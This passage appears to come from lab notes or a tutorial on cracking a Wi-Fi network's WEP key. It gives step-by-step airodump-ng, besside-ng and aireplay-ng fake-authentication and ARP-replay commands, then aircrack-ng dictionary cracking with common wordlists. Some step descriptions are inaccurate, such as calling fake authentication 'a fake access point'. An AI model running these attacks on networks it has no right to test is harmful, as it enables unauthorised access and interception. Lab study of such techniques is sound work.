 2. We try a more targeted scan: 

```
sudo airodump-ng wlan0mon --bssid <BSSID>  --channel <CHANNEL> -w <FILE_PREFIX> --output-format pcap
```

**Screenshot of targeted airodump goes here:**

![](Files/image.png)

  

  

  

3. If we see that there is a client connected, use the `besside-ng`  tool to get the password, `aireplay-ng`  to create a fake access point and to do an ARP-request replay attack to generate traffic on the fake access point at the same time. We can open different terminal windows to run the commands simultaneously. 

```bash
# 1. Stop the airodump-ng scan

# 2. stop monitoring on wlan0
sudo airmon-ng stop wlan0

# 3. Kill any processes that may interfere
sudo airmon-ng check kill

# 4. Run besside-ng
sudo besside-ng -c <CHANNEL> -b <BSSID> wlan0

# 5. Take a pcap of the wireless traffic
sudo airodump-ng -c <CHANNEL> --bssid <Wifi AP MAC Address> -w wep wlan0 --output-format pcap

# 6. Create a fake access point
sudo aireplay-ng -1 3600 -q 10 -a <Wifi AP MAC Address> wlan0

# 7. Run an ARP request attack
sudo aireplay-ng --arpreplay -b <Wifi AP MAC Address> -h <MAC Address of Client> wlan0

```

**Screenshot of attack:**

![](Files/image.png)

  

  

  

4. In another terminal window, we can crack the pcap file we captured in the previous step. 

```
sudo aircrack-ng <PCAP FILE> /usr/share/wordlists/rockyou.txt

sudo aircrack-ng <PCAP FILE> /usr/share/john/password.lst

# Convert key to ASCII
sudo aircrack-ng -l ascii-key wep.cap
```
